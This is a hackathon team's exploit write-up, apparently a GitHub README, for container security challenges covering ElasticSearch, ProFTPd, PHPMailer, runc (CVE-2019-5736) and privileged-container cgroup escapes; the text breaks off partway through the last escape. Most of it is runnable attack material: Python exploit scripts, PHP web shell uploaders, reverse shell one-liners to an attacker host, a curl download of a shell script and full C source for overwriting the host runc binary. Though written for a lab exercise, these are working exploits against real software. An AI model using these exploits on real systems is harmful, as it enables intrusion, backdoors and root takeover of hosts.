#  HACKATHON CONTAINER SECURITY CHALLENGE 2021 writeup
> SomeDayPWN team:
> - SpiritOfSea (Dzmitry Padabed)
> - wellafl3x (Vladimir Moiseev)
> - sweetysweat (Ursegov Andrew)
> - Yaperko (Perminova Yana)

------

Table of contents:
- [CVE-2015-1427](https://github.com/SpiritOfSea/hackathon_docker/#cve-2015-1427)
- [CVE-2015-3306](https://github.com/SpiritOfSea/hackathon_docker/#cve-2015-3306)
- [CVE-2016-10033](https://github.com/SpiritOfSea/hackathon_docker/#cve-2016-10033)
- [CVE-2019-5736](https://github.com/SpiritOfSea/hackathon_docker/#cve-2019-5736)
- [Kali, Tomcat & Website](https://github.com/SpiritOfSea/hackathon_docker/#kali-tomcat--website)


CVE-2015-1427
===

We have Ubuntu-base ElasticSearch container with exposed port 9200, which returns JSON from web-interface.

So we've acquired:
- root command injection (CVE-2015-1427)
- reverse shell (root)


How does the exploit work?
---
We have two goals, so exploiting process could be divided in two parts.

First one is exploiting ElasticSearch. CVE-2015-1427 describes Groovy scripting engine bug, which allows to craft special request allowing arbitrary commands execution. Basically we're escalating from _java.lang.Math_ to _java.lang.Runtime_, thus executing shell commands with _.exec()_ method.

So, using our __cve_exploit.py__ file we're sending malicous request to our server. Also, simple cli was made just for handy usage.



Second part consists in getting reverse shell: command injection lacks of flexibility and some functionality.
We've discovered, that somewhy we can't direct connect to our _nc_ listener. So we need to find a way around: executing .sh-script.
Easiest approach (not the nicest) we found was to install curl and download script directly to container.



After that, with _nc_ listener we can acquire reverse shell. 



[Video](https://youtu.be/VckaMBA3XRw)

How do I run it?
---
1. Run docker container.

2. Execute __cve_exploit.py__:

```python
#!/usr/bin/env python3

# SomeDayPWN at HACKATHON CONTAINER SECURITY CHALLENGE 2021
# 08.12.2021

import json
import requests


host = "127.0.0.1"
port = "9200"
url = f"http://{host}:{port}/_search?pretty"    # our victim POST point


while True:

    cmd = input("Enter command: ")
    if cmd == "script_exit":
        break

    payload = '{"size":1, "script_fields": {"data_leak":{"script": "java.lang.Math.class.forName(\\"java.lang.Runtime\\").getRuntime().exec(\\"%s\\").getText()"}}}' %(cmd)
                                                # payload => POST data malicous content, that allows us to exec system commands

    r = requests.post(url=url, data=payload)
    try:                                        # parsing recieved json, if parsing failed printing raw response (debug)
        print(json.loads(r.text)['hits']['hits'][0]['fields']['data_leak'][0])
    except:
        print(r.text)

```

3. Execute on victim with command injection interface:

```
apt install curl

```

4. On attacker prepare __revshell_script.sh__:

```bash
#!/usr/bin/env bash

/bin/bash -l > /dev/tcp/host.docker.internal/4242 0<&1 2>&1

```

5. On attacker start Python HTTP server:
```
python3 -m http.server 6321

```

6. On victim find _host.docker.internal_ IP with __ping__:
```
ping -c 1 host.docker.internal

```

7. On victim prepare directory and download revshell:

```
mkdir /home/victim
curl http://$HOST_IP:6321/revshell_script.sh -o /home/test/revshell_script.sh

```

8. On attacker start netcat listener:
```
nc -lvnp 4242

```

9. On victim mark revshell as executable and run it:
```
chmod +x /home/victim/revshell_script.sh
/home/victim/revshell.sh

```

10. Reverse connection established, root shell gained.


CVE-2015-3306
===

We have ProFTPd server on port 21 and Apcache running on port 80.

We've got:
- CPFR/CPTO local file inclusion (CVE-2015-3306)
- Reverse shell as www-admin.


How does the exploit work?
---

ProFTPd on this version allows to copy/paste local information using CPFR and CPTO commands after EOF marker. 

So, using our __cve-3306.sh__ we can capture sensitive infromation which low-priveleged user has access to. For example, we can get _/etc/passwd_ content loaded into web interface:





After that, we can access _cmdline_ proccess. Using __backdoor_uploader.py__ we're uploading PHP command injection file:



Also, for more comfortable usage we'll use __interact.py__ cli:



So, we've gained www-data shell.

[Video](https://youtu.be/_BsOYnXDpMk)

How do I run it?
---

1. Run docker container.

2. (optional) Start __cve-3306.sh__ script, which connects to 127.0.0.1:21 and copies passwd file to web interface:

```bash
#!/usr/bin/env bash

nc 127.0.0.1 21 <<EOF
SITE CPFR /etc/passwd
SITE CPTO /var/www/html/backdoor_info
EOF

```

3. Execute __backdoor_uploader.py__, which spawns web php shell:

```python
#!/usr/bin/env python

# SomeDayPWN at HACKATHON CONTAINER SECURITY CHALLENGE 2021
# 07.12.2021

import requests
import socket

host = "127.0.0.1"
port = 21
payload = "<?php echo passthru($_GET['c']); ?>"

# Connecting to ProFTPd

conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
conn.connect((host, port))
conn.recv(1024)

# Sending payload

conn.send(b"site cpfr /proc/self/cmdline\n")    # Getting cmdline proccess
conn.recv(1024)
conn.send((f"site cpto /tmp/.{payload}\n").encode("utf-8"))
conn.recv(1024)
conn.send((f"site cpfr /tmp/.{payload}\n").encode("utf-8"))
conn.recv(1024)
conn.send(("site cpto /var/www/html/backdoor.php").encode("utf-8"))

```

4. Execute __interact.py__ which gives handy access to _www-data_-level of RCE:

```python
#!/usr/bin/env python

# SomeDayPWN at HACKATHON CONTAINER SECURITY CHALLENGE 2021
# 07.12.2021

import requests

host = "127.0.0.1"
port = "80"
backdoor = "backdoor.php"

target = f"http://{host}:{port}/{backdoor}?c="

def send(cmd):
    r = requests.get(target+cmd)
    print(r.text.split("/tmp/.")[1])

send("ls")

while (1):
    send(input("Command: "))

print("Exit.")

```

5. Connection established, user control gained.

CVE-2016-10033
===

We have PHPMail on port 8383.

We've got:
- PHP backdoor 
- Stable reverse shell.

How does the exploit work?
---

PHPMailer fails at purifying 'email' and 'name' fields content; so we can inject PHP shell into 'name' field and using 'email' mail queue log into web interface.

After using __backdoor_uploader.py__ on target we gain access to "/backdoor.php" page on web server:



And, using _id_ for testing:



We must be aware: 'name' field prints 4 time, so EVERY command we pass to web shell will be executed quadriple.

For handier approach we use __interact.py__ homebrew cli.

After some reconnaissanse we discover that python is installed and allowed to run by _www-data_ user. So we start a reverse shell:



We've found no root escalation vector; but there are several _*.sh__ files in _www/vulnerable/test__ owned by _root_ and global editable; so they could be modified to send reverse shell on start.



The way we can obtain root fully relies on container administrator: if he'll decide to start that _*.sh_ files, we can get full machine access. 

[Video](https://youtu.be/j9RB7hpZVJs)

How do I run it?
---

1. Start Docker container.

2. Execute __backdoor_uploader.py__:

```python
#!/usr/bin/env python3

# SomeDayPWN at HACKATHON CONTAINER SECURITY CHALLENGE 2021
# 09.12.2021

import requests
from requests_toolbelt import MultipartEncoder

host = "127.0.0.1"
port = "8383"
backdoor = "backdoor.php"

target = f"http://{host}:{port}/"
payload = "<PAYLOAD><?php system($_GET['c']); ?><PAYLOAD>" # inserting <PAYLOAD> tags to easily catching output

data = {'action': 'submit',
         'name': payload, # Inserting PHP payload
         'email': f'"SomeDayPWN\\\" -OQueueDirectory=/tmp -X/www/{backdoor} server\" @whocares.org', # ...and copy it into web directory  
         'message': '.'}

multenc = MultipartEncoder(fields=data, 
                           boundary='----WebKitFormBoundaryzXJpHSq4mNy35tHe')

headers = {"User-Agent": 'curl/7.74.0', 'Content-Type': multenc.content_type}

r = requests.post(target, data=multenc.to_string(), headers=headers)

```

3. (optional) Execute __interact.py__ for handy approach:

```python
#!/usr/bin/env python

# SomeDayPWN at HACKATHON CONTAINER SECURITY CHALLENGE 2021
# 07.12.2021

import requests

host = "127.0.0.1"
port = "8383"
backdoor = "backdoor.php"

target = f"http://{host}:{port}/{backdoor}?c="

def send(cmd):
    r = requests.get(target+cmd)
    print(r.text.split("<PAYLOAD>")[1])

send("ls")

while (1):
    send(input("Command: "))

print("Exit.")

```

4. On host machine start _netcat_ listener:

```
nc -lvnp 4242

```

5. On victim machine start reverse shell:

```
python -c 'import socket,os,pty;s=socket.socket();s.connect(("192.168.65.2",4242));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

```

CVE-2019-5736
===

We have Ubuntu-based container, which we should use to gain root access on host.
Also we have installed docker-ce and docker-ce-cli with 18.09.1 stable version, and containerd with 1.2.0 stable version.

We suppose to overwrite the host runc binary (and consequently obtain host root access) by leveraging the ability to execute a command as root within an existing container, to which we previously had write access, that can be attached with docker exec. This occurs because of file-descriptor mishandling, related to /proc/self/exe. (CVE-2019-5736).


How does the exploit work?
---
The vulnerability allows a malicious container to (with minimal user interaction) overwrite the host runc binary and thus gain root-level code execution on the host. The level of user interaction is being able to run any command. 
This scenario requires runC to spin up a new process in a container. runC is tasked with running a user-defined binary in the container. In Docker, this binary is either the image’s entry point when starting a new container, or docker exec’s argument when attaching to an existing container.
When this user binary is run, it must already be confined and restricted inside the container, or it can jeopardize the host. In order to accomplish that, runC creates a ‘runC init’ subprocess which places all needed restrictions on itself (such as entering or setting up namespaces) and effectively places itself in the container. Then, the runC init process, now in the container, calls the execve syscall to overwrite itself with the user requested binary.

This is the method used by runC both for creating new containers and for attaching a process to an existing container.

The researchers who revealed the vulnerability discovered that an attacker can trick runC into executing itself by asking it to run /proc/self/exe, which is a symbolic link to the runC binary on the host.

An attacker with root access in the container can then use /proc/[runc-pid]/exe as a reference to the runC binary on the host and overwrite it. Root access in the container is required to perform this attack as the runC binary is owned by root.
The next time runC is executed, the attacker will achieve code execution on the host. Since runC is normally run as root (e.g. by the Docker daemon), the attacker will gain root access on the host.

[Video](https://youtu.be/uSa0cEsHEqU)

How do I run it?
---
1. Run docker container.

2. Create malevolent docker image within following files in directory called "malevolent_image_POC"(source - https://github.com/BBRathnayaka/POC-CVE-2019-5736/tree/master/malicious_image_POC):

    a) Dockerfile
    ```
    FROM ubuntu:18.04

    # Get the libseccomp source code and required build dependecies 
    RUN set -e -x ;\
        sed -i 's,# deb-src,deb-src,' /etc/apt/sources.list ;\
        apt -y update ;\
        apt-get -y install build-essential ;\
        cd /root ;\
        apt-get -y build-dep libseccomp ;\
        apt-get source libseccomp

    # Append the run_at_link funtion to the libseccomp-2.3.1/src/api.c file and build
    ADD run_at_link.c /root/run_at_link.c
    RUN set -e -x ;\
        cd /root/libseccomp-* ;\
        cat /root/run_at_link.c >> src/api.c ;\
        DEB_BUILD_OPTIONS=nocheck dpkg-buildpackage -b -uc -us ;\
        dpkg -i /root/*.deb

    # Add overwrite_runc.c and compile
    ADD overwrite_runc.c /root/overwrite_runc.c
    RUN set -e -x ;\
        cd /root ;\
        gcc overwrite_runc.c -o /overwrite_runc

    # Add the new_runc file which is designated to replace the host runC upon execution of the image
    ADD new_runc /root/new_runc

    # Create a symbolic link to /proc/self/exe and set it as the image entrypoint
    RUN set -e -x ;\
        ln -s /proc/self/exe /entrypoint
    ENTRYPOINT [ "/entrypoint" ]
    ```
    b) new_runc file:
    ```bash
    #!/bin/bash
    bash -i >& /dev/tcp/0.0.0.0/2345 0>&1 &
    ```
    c)overwrite_runc.c file:
    ```c
    #include <sys/types.h>
    #include <sys/stat.h>
    #include <fcntl.h>
    #include <unistd.h>
    #include <errno.h>

    #include <stdlib.h>
    #include <string.h>
    #include <stdio.h>


    /* Simple Buffer*/
    typedef struct Buffer
    {
        int len;        // buffer length
        void * buff;    // buffer data
    } Buffer;

    #define FALSE 0
    #define TRUE  1

    const char * DEFAULT_NEW_RUNC_PATH = "/root/new_runc";
    const unsigned int PATH_MAX_LEN = 30;

    const int OPEN_ERR = -1;
    const int RET_ERR = 1;
    const int RET_OK = 0;

    const long WRITE_TIMEOUT = 99999999999999999;

    Buffer read_new_runc(char * new_runc_path);


    /*
    * Usage: overwrite_runc <path a file reffering to the runC binary>
    * Overwrites the runC binary.
    */
    int main(int argc, char *argv[])
    {
        int  runc_fd_write, wc;
        char * runc_fd_path;
        char * new_runc_path;                    
        Buffer new_runc;


        printf("\t-> Starting\n");
        fflush(stdout);

        /* Read new_runc */
        runc_fd_path = argv[1];
        new_runc_path = DEFAULT_NEW_RUNC_PATH;
        new_runc = read_new_runc(new_runc_path);
        if (new_runc.buff == NULL)
        {
            return RET_ERR;
        }   

        /* Try to open runc_fd_path for writing      */
        /* Should Succeed when no runC process are executed, normally at first try  */
        int opened = FALSE;
        for (long count = 0; (!opened && count < WRITE_TIMEOUT); count++)
        {
            runc_fd_write = open(runc_fd_path, O_WRONLY | O_TRUNC);
            if (runc_fd_write != OPEN_ERR)
            {
                printf("\t-> Opened %s for writing\n", runc_fd_path);
                wc = write(runc_fd_write, new_runc.buff, new_runc.len);
                if (wc !=  new_runc.len)
                {
                    printf("\t[!] Couldn't write to my process's runC's fd %s\n", runc_fd_path);
                    fflush(stdout);
                    close(runc_fd_write);
                    free(new_runc.buff);
                    return RET_ERR;
                }
                printf("\t-> Overwrote runC\n");
                opened = TRUE;
            }
        }

        /* Clean ups & return */
        close(runc_fd_write);
        free(new_runc.buff);
        if (opened == FALSE)
        {
            printf("\t[!] Reached timeout, couldn't write to runc at %s\n", runc_fd_path);
            fflush(stdout);
            return RET_ERR;
        }
        else
        {
            printf("\t-> Success, shuting down ...\n");
            fflush(stdout);
        }
        return RET_OK;
    }

    /*
    *
    * Reads from the file at new_runc_path, returns a Buffer with new_runc's content.
    *
    */
    Buffer read_new_runc(char * new_runc_path)
    {
        Buffer new_runc = {0, NULL};
        FILE *fp_new_runc;
        int file_size, rc;
        void * new_runc_content;
        char ch;

        // open new_Runc
        fp_new_runc = fopen(new_runc_path, "r"); // read mode
        if (fp_new_runc == NULL)
        {
          printf("[!] open file err while opening the new runc file %s\n", new_runc_path);
          return new_runc;
        }

        // Get file size and prepare buff
        fseek(fp_new_runc, 0L, SEEK_END);
        file_size = ftell(fp_new_runc);
        new_runc_content = malloc(file_size);
        rewind(fp_new_runc);

        rc = fread(new_runc_content, 1, file_size, fp_new_runc);
        if (rc != file_size)
        {
            printf("[!] Couldn't read from new runc file at %s\n", new_runc_path);
            free(new_runc_content);
            return new_runc;
        }

        fclose(fp_new_runc);
        new_runc.len = rc;
        new_runc.buff = new_runc_content;
        return new_runc;

    }
    ```
    d) run_at_link.c file:
    ```c
    #include <stdio.h>
    #include <sys/types.h>
    #include <sys/stat.h>
    #include <fcntl.h>
    #include <unistd.h>

    __attribute__ ((constructor)) void run_at_link(void)
    {
        char *argv_overwrite[3];
        char buf[128];

        /* Open the runC binary for reading */
        int runc_fd_read = open("/proc/self/exe", O_RDONLY);
        if (runc_fd_read == -1 ) {
            printf("[!] can't open /proc/self/exe\n");
            return;
        }
        printf("[+] Opened runC for reading as /proc/self/fd/%d\n", runc_fd_read);
        fflush(stdout);
    
        /* Prepare overwrite_runc arguments: ['overwrite_runc', '/proc/self/fd/runc_fd_read'] */
        argv_overwrite[0] = strdup("/overwrite_runc");
        snprintf(buf, 128, "/proc/self/fd/%d", runc_fd_read);
        argv_overwrite[1] = buf;
        argv_overwrite[2] = 0;

        printf("[+] Calling overwrite_runc\n");
        fflush(stdout);
        /* Execute overwrite_runc */
        execve("/overwrite_runc", argv_overwrite, NULL);
    }
    ```
    


3. From terminal session start netcat listening to reverse shell:

```
$ nc -nvlp 2345
```

4. From another terminal session build and run malicious docker image, indicating correct path to directory with files:

```
$ docker build -t cve-2019-5736:malicious_image_POC ./malicious_image_POC
$ docker run --rm cve-2019-5736:malicious_image_POC
```

So, we just have our files in one directory:




Then we just build docker container from this dir with the command written above:



And the last step, we just run our malevolent container:




As the result, on terminal session with netcat listening command we have succesfully reverse shell. So, also we have root access to the host machine and we can do anything what we want. Done!


Kali, Tomcat & Website
===

We have docker containers, that were run with "--privileged" or "--cap-add=SYS_ADMIN --security-opt apparmor=unconfined" flags.

How does the exploit work?
---

There are two close vulnerabilities. Both allow user inside of privileged container gain root access to host using custom cgroups and their _release\_agent_ property: when agent is released, payload can be executed on host. Also, that custom cgroup is mounted to our container, which allows us to read output and use any commands on host.

[Video 1](https://youtu.be/fPnXoPOcvR4)

[Video 2](https://youtu.be/l-A8J2jCNRU)


How do I run it?
---

For _--privileged_ container (on Kali exmple, works on all three VM's):

1. On host run:

```bash
docker run --rm -it --privileged kalilinux/kali-rolling bash

```

2. After console appeared, run:

```bash
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`   # get docker container dir name;

mkdir -p $d/w;echo 1 >$d/w/notify_on_release    # create /w dir, and put "1" flag into notify_on_release to activate it

t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

touch /o; echo $t/c >$d/release_agent;printf '#!/bin/sh\nps >'"$t/o" >/c;    # configure release agent and payload

chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o   # execute command that will instantly trigger our payload and read output.

```

For _--cap-add=SYS_ADMIN --security-opt apparmor=unconfined_ container:

1. On host run: 

```bash
docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash

```

2. At console run:

```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x # mounting cgroup to /tmp/cgrp, creating group "x"
 
echo 1 > /tmp/cgrp/x/notify_on_release # Enabling notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab` # Getting host path to container internals
echo "$host_path/cmd" > /tmp/cgrp/release_agent # Making release agent run our payload on release
 
echo '#!/bin/sh' > /cmd # Crafting our payload; "ps aux" as example.
